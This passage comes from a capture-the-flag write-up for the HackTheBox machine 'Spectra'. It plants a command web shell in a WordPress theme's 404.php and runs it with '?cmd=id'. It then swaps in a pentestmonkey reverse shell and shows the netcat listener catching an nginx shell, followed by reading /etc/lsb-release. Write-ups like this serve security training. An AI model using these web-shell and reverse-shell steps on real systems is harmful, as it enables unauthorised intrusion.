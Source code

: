 ![404 upload php cmd]({{ page.img }}_404_php.png)

Then navigate to **http://spectra.htb/main/wp-content/themes/twentynineteen/404.php?cmd=id**

![404 php cmd id]({{ page.img }}_404_cmd.png)

For simplicity's sake I'll add a pentestmonkey shell so it's a little more stable than a bash revshell I would otherwise run here. After modifying 404.php head to **http://spectra.htb/main/wp-content/themes/twentynineteen/404.php** and pop the shell.

```bash
nc -nvlp 7777
Listening on 0.0.0.0 7777
Connection received on 10.10.10.229 34802
Linux spectra 5.4.66+ #1 SMP Tue Dec 22 13:39:49 UTC 2020 x86_64 AMD EPYC 7763 64-Core Processor AuthenticAMD GNU/Linux
 16:46:36 up 46 min,  0 users,  load average: 0.00, 0.00, 0.03
USER     TTY        LOGIN@   IDLE   JCPU   PCPU WHAT
uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)
bash: cannot set terminal process group (4533): Inappropriate ioctl for device
bash: no job control in this shell
nginx@spectra / $
```


## /etc/autologin

The OS is not linux or windows as per HTB, I should check what it is by reading **/etc/lsb-release** (if it exists).

```bash
nginx@spectra / $ cat /etc/lsb-release
cat /etc/lsb-release
GOOGLE_RELEASE=87.3.41
CHROMEOS_RELEASE_BRANCH_NUMBER=85
CHROMEOS_RELEASE_TRACK=stable-channel
CHROMEOS_RELEASE_KEYSET=devkeys
CHROMEOS_RELEASE_NAME=Chromium OS
CHROMEOS_AUSERVER=https://cloudready-free-update-server-2.neverware.com/update
CHROMEOS_RELEASE_BOARD=chromeover64
CHROMEOS_DEVSERVER=https://cloudready-free-update-server-2.neverware.com/
CHROMEOS_RELEASE_BUILD_NUMBER=13505
CHROMEOS_CANARY_APPID={90F229CE-83E2-4FAF-8479-E368A34938B1}
CHROMEOS_RELEASE_CHROME_MILESTONE=87
CHROMEOS_RELEASE_PATCH_NUMBER=2021_01_15_2352
CHROMEOS_RELEASE_APPID=87efface-864d-49a5-9bb3-4b050a7c227a
CHROMEOS_BOARD_APPID=87efface-864d-49a5-9bb3-4b050a7c227a
CHROMEOS_RELEASE_BUILD_TYPE=Developer Build - neverware
CHROMEOS_RELEASE_VERSION=87.3.41
CHROMEOS_RELEASE_DESCRIPTION=87.3.41 (Developer Build - neverware) stable-channel chromeover64
```

I'm not sure this changes the gameplan here. I'll continue until an issue potentially relating to running on ChromeOS comes up. 
